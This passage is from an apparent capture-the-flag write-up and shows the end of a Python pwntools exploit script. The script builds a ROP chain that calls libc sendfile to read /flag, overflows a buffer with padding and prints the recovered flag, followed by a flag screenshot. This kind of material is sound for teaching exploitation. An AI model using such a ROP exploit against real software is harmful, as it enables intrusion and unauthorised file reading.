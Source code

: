 ```python
    ], [
        gadgets.rdi.address, 1,
        gadgets.rsi.address, 3,
        gadgets.rdx.address, 0, 0,
        gadgets.rcx.address, 0x50,
        libc.symbols['sendfile'],
    ], [
        gadgets.rdi.address, 0,
        libc.symbols['exit'],
    ])

    # stage 2 hack 3
    t.sendafter(b'Good luck', b'\0' * 0x100 + chain)
    sleep(0.125)
    t.send(b'/flag\0')

    t.recvuntil(b'{')
    flag = 'DASCTF{' + t.recvuntil(b'}').decode()
    success(f'Flag is: {flag}')
    t.close()
```

{% note default fa-flag %}
![flag](/assets/ycb2025/stack_flag.png)
{% endnote %}
